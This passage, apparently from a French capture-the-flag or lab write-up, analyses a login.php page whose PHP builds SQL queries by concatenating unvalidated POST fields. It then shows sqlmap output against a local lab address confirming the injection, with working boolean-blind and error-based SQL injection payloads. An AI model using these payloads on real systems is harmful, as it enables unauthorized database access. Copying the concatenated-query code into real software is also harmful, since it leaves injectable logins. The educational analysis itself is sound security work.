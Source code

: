 ### Analyse de code_backup.tgz : injection SQL sur la page login.php

Dans cette même page, une autre portion de code est particulièrement intéressante (et vulnérable).

```php
if (isset($_POST['username']) && isset($_POST['password'])) {
	$sql = "select user_id from user 
			where user_username = '" . $_POST['username'] . "'";
	$query = mysql_query($sql) or die("Query error with $sql: " . mysql_error());
	if ($query && mysql_num_rows($query) > 0) {
		//user exists
		$uname = mysql_fetch_object($query);
		$sql = "select * from user where user_id = " . $uname->user_id . 
			" AND user_password = md5('" . $_POST['password'] . "')";
		$query = mysql_query($sql) 
			or $log->append("Query error in login $sql<hr/> " . mysql_error());
		
        --snip--
	}
	
	--snip--
}
```

Tout est question de filtrage, de validation et de contrôle sur les données entrantes. Les valeurs _username_ et _password_ fournies par l'utilisateur ne sont pas contrôlées, et une personne malveillante pourrait y inclure du code SQL afin de récupérer ce qu'il y a en base de données.

```console
root@blinils:~# sqlmap -u "http://192.168.56.101/?action=login" --data="username=test&password=test" --dbms=MySQL
--snip--
[02:02:02] [INFO] testing connection to the target URL
[02:02:02] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[02:02:02] [INFO] testing if the target URL content is stable
[02:02:02] [INFO] target URL content is stable
[02:02:02] [INFO] testing if POST parameter 'username' is dynamic
[02:02:02] [WARNING] POST parameter 'username' does not appear to be dynamic
[02:02:02] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[02:02:02] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
--snip--
[02:02:02] [INFO] POST parameter 'username' is 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)' injectable 
--snip--
[02:02:02] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 OR time-based blind' injectable 
--snip--
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 415 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=test' RLIKE (SELECT (CASE WHEN (8038=8038) THEN 0x74657374 ELSE 0x28 END))-- vYhy&password=test

    Type: error-based
    Title: MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: username=test' OR ROW(4885,3269)>(SELECT COUNT(*),
    CONCAT(0x717a706a71,(SELECT (ELT(4885=4885,1))),0x716b707671,FLOOR(RAND(0)*2))x
    FROM (SELECT 7990 UNION SELECT 7409 UNION SELECT 4553 UNION SELECT 5896)a GROUP BY x)-- qGuh&password=test
```
